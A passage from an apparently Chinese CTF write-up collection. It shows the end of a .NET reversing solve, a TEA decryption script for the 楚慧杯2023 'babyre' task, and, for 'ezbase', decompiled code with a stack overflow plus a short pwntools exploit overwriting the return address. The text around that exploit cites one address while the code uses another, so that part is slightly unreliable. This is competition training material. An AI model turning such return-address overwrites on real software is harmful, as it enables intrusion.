    59, 65, 108, 110, 223, 90, 245, 226, 6, 122,
    219, 170, 147, 176, 22, 190, 60, 24, 58, 86,
    150, 97, 188, 166, 113, 104, 232, 197, 234, 225,
    22, 183, 40, 78, 102, 116
]
with open("array3", "rb") as f:
    data = f.read()
md5_hash = hashlib.md5(data).hexdigest()
for i in range(len(v10)):
    index =  (i * 2) % len(md5_hash)
    v10[i] ^= int(md5_hash[index:index+2], 16)
print(bytes(v10))
# b'flag{d0tN3t_I5_Ea57_2_y09!G00d_Luck}'
```

# 楚慧杯2023

## babyre

解混淆后：

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
	...
    v11 = 0;
    printf("Plz input your flag:");
    v9[0] = 0x87654321DEADBEEFLL;
    v9[1] = 0xCAFEBABEFACEB00CLL;
    fgets(s, 50, MEMORY[0]);
    memcpy(dest, &unk_400E90, 0x48uLL);
    v7 = (strlen(s) + 3) >> 2;
    ptr = malloc(8LL * v7);
    for ( i = 0; i < v7; ++i )
    {
        memset(&v4, 0, sizeof(v4));
        LODWORD(v4) = *(_DWORD *)&s[4 * i];
        encode(32LL, &v4, v9);
        *((_QWORD *)ptr + i) = v4;
    }
    for ( i = 0; ; ++i )
    {
        if ( i >= 2 * v7 )
        {
            printf("Congratulations\n");
            free(ptr);
            return 0;
        }
        if ( *((_DWORD *)ptr + i) != dest[i] )
            break;
    }
    printf("Error\n");
    return 0;
}
```

提示了TEA，就直接脚本解了：

```Python
import struct  
result = [0x72, 0x86, 0x8F, 0x16, 0x24, 0xD8, 0xDB, 0x02, 0xCA, 0x7F, 0x64, 0xCF, 0xEF, 0xA7, 0xEF, 0xE6, 0xF0, 0x16, 0xE0, 0x4A, 0x1D, 0x2E, 0x83, 0xC5, 0x05, 0x0A, 0x5C, 0x45, 0x40, 0x81, 0xEB, 0xFF, 0xEF, 0x61, 0x95, 0xBE, 0x23, 0x9E, 0x81, 0x7F, 0x69, 0x42, 0xC0, 0x3B, 0x5B, 0x82, 0x8B, 0xC6, 0xF0, 0xB1, 0xA5, 0xE6, 0xBD, 0xCB, 0x03, 0xBD, 0x0E, 0xCE, 0xB3, 0xA9, 0xE7, 0xE6, 0x85, 0x6C, 0xEF, 0x71, 0x5C, 0x9F, 0x57, 0xBD, 0xE4, 0x3B]
key = [0x87654321DEADBEEF, 0xCAFEBABEFACEB00C]
result = list(struct.unpack('<18I', bytearray(result)))
key = struct.pack('<2Q', *key)
key = list(struct.unpack('<4I', key))
flag = []  
def tea_dec(cipher, key):  
    num = (-0x61C88647 * 32) & 0xFFFFFFFF  
    for i in range(32):  
        cipher[1] -= ((((cipher[0] >> 5) ^ (cipher[0] << 4)) + cipher[0]) & 0xffffffff) ^ ((key[(num >> 11) & 3] + num) & 0xFFFFFFFF)  
        cipher[1] &= 0xFFFFFFFF  
        num = (num + 0x61C88647) & 0xFFFFFFFF  
        cipher[0] -= ((((cipher[1] >> 5) ^ (cipher[1] << 4)) + cipher[1]) & 0xffffffff) ^ ((key[num & 3] + num) & 0xFFFFFFFF)
        cipher[0] &= 0xFFFFFFFF  
    return cipher  

content = []  
for i in range(0, len(result), 2):  
    content += tea_dec(result[i:i + 2], key)  
for i in range(len(content)):  
    flag += struct.pack('<I', content[i])  
print(bytearray(flag).replace(b'\x00', b''))
print(bytearray(flag).replace(b'\x00', b'').decode())
# DASCTF{Don't_forget_to_drink_tea}
```

## ezbase

栈溢出：

```C
__int64 sub_404986()
{
	......
    sub_4D8C40("This is a easy and joy de/en base64 elf");
    sub_4D8C40("You have two choices: \n1:encode\n2:decode");
    sub_454520(qword_5C85E0, &v8);
    memset(str_input, 0, sizeof(str_input));
    LODWORD(v6) = 0;
    if ( v8 == 1 )
    {
        sub_4D1670("cin de_str:");
        scanf(qword_5C85E0, output_);
        sub_404245(output_, str_input);
        v1 = sub_470BC0(qword_5C84C0, str_input, v0);
        sub_46F650(v1, sub_470510);
    }
    if ( v8 == 2 )
    {
        sub_4D1670("cin en_str:");
        scanf(qword_5C85E0, str_input);
        sub_404635(str_input, output_);
        v3 = sub_470BC0(qword_5C84C0, output_, v2);
        sub_46F650(v3, sub_470510);
    }
    return 0LL;
}
```

改变返回地址到这，不知道为啥`0ex40490d`不行，用的`0x404911`：


EXP：

```Python
from pwn import *

sh = process('./base')
sh.recvuntil(b'2:decode')
sh.sendline(b'1')
sh.recvuntil(b'cin de_str:')
payload = b'1234' * 8 + b'\x00' * 8 + p64(0x40490D)
sh.sendline(payload)
sh.interactive()
sh.close()
```

